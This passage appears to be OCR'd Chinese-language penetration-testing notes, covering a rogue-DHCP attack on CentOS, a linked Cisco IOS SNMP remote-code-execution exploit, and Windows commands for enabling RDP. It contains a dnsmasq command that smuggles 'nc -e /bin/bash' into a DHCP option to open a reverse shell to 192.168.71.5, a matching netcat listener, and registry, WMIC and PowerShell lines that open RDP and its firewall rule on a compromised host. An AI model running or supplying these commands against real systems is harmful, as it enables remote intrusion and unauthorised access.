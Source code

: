         bind-interfaces

        interface=eth0
        except-interface=lo
        dhcp-range=192.168.71.10,192.168.71.20,12h
        dhcp-option=3,192.168.71.5
        dhcp-option=6,192.168.71.5
        log-queries
        log-facility=/var/log/dnsmasq.log
        ```
        `dnsmasq -dC dnsmasq.conf --dhcp-option="252,malayke'&nc -e /bin/bash 192.168.71.5 6666 #"`

        `nc -l -p 6666 -v`

        重启 CentOS 的网络服务,然后 shell 就反弹回来了

---

### UNIX渗透
#### CISCO
**CISCO vul**
- **CVE-2017-6736 Cisco IOS remote code execution**
    - [artkond/cisco-snmp-rce](https://github.com/artkond/cisco-snmp-rce)

---
### windows渗透


#### RDP

**cmd 开 RDP**
- 文章
    - [开启 RDP](http://b404.xyz/2017/12/27/open-RDP/)

- 命令
    - **dos 命令开启 3389 端口(开启 XP&2003 终端服务)**
        1. 方法一：`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`

        2. 方法二：`REG add HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /d 0 /t REG_DWORD /f`

    - **WMIC 开启 3389**

         `wmic /namespace:\\root\CIMV2\TerminalServices PATH Win32_TerminalServiceSetting WHERE (__CLASS !="") CALL SetAllowTSConnections 1`

    - **PowerShell 开启 RDP**
        1. Enable RDP
        `set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0`

        2. Allow RDP in firewall
        `Set-NetFirewallRule -Name RemoteDesktop-UserMode-In-TCP -Enabled true`

        3. Enable secure RDP authentication
        `set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "UserAuthentication" -Value 1`
